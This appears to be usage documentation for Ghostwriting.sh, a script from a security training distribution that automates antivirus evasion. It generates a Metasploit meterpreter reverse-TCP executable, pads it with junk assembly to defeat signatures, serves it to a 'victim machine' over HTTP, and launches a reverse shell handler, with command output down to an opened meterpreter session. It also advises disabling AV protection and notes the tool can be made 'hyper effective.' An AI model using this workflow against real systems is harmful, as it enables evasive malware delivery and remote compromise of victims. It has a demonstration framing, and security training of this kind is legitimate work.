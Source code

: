 
Ghostwriting.sh
===============

Description
-----------
Ghostwriting is a method of anti-virus bypass utilizing binary deconstruction, insertion of arbitrary assembly code, and reconstruction.
We will make use of built in metasploit tools to perform the actions listed above.  Ghostwriting.sh is a tool used to automate the process.

Install Location
----------------

`/opt/ghostwriting/`

Usage
-----

Ghostwriting.sh is quite easy to use.  Simply change directory to the install location,
run the script, and follow the prompts.

Let me show you an example.

Video Walkthrough
-----------------

<iframe src="https://onedrive.live.com/embed?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155674&authkey=AFzauuwLy7HXj-M" width="320" height="179" frameborder="0" scrolling="no" allowfullscreen sandbox="allow-scripts allow-pointer-lock allow-forms allow-same-origin"></iframe>

Example 1: Obfuscating an executable with Ghostwriting.sh
---------------------------------------------------------

Let's first launch the script

`~$` **`cd /opt/ghostwriting/`**

`/opt/ghostwriting$` **`sudo ./ghostwriting.sh`**

Ghostwriting will first download and install any missing gems it may need.  It will then create a
meterpreter reverse tcp binary ready to connect back to your machine's private IP address.
Next it will disassemble that executable, and insert junk code as a form of signature evasion.
Finally it will reassemble the binary with the junk code inside, and open a webserver so you can
transfer the file to your victim machine.

        ****************************************************
        Opening webserver on 192.168.27.171:8000 for file transfer
        Ctrl+C to continue after file transfer
        ****************************************************
        Serving HTTP on 0.0.0.0 port 8000 ...

On your victim machine, open a web browser, and navigate to the ip address of your ADHD machine on port 8000.
You should see two files.  Click to download "EveryVillainIsLemons.exe".

![Downloads in Chrome](Ghostwriting.sh_files/downloads.PNG)

Here is the moment of truth, depending on your AV this specific file may or may not be detected
and block upon download (or later upon execution).  If you need to, go ahead and disable your AV's
real-time protection.  This script is a demonstration tool more than anything.  It can however be
modified to be hyper effective.

Once you have the file downloaded, go ahead and head over to your terminal in ADHD and
press **`Ctrl + C`** to stop the web server.

Ghostwriting.sh will now ask you if you would like to start the payload handler, tell it yes (y).

        File Transfer Complete, probably...
        Would you like to start the handler now? [y/N]
        y
        Starting Handler
        LHOST => 192.168.27.171
        LPORT => 8080
        [*] Started reverse handler on 192.168.27.171:8080
        [*] Starting the payload handler...

It will then launch metasploit's reverse shell handler.

To create a session, back on your victim machine, simply run the executable file "EveryVillainIsLemons.exe"

The reverse handler on ADHD should receive the incoming connection and launch a session for you.

        [*] Sending state (769536 bytes) to 192.168.27.1
        [*] Meterpreter session 1 opened (192.168.27.171:8080 -> 192.168.27.1:9832) at 2014-06-30 12:41:33

        meterpreter \>

There you go, happy pwning!


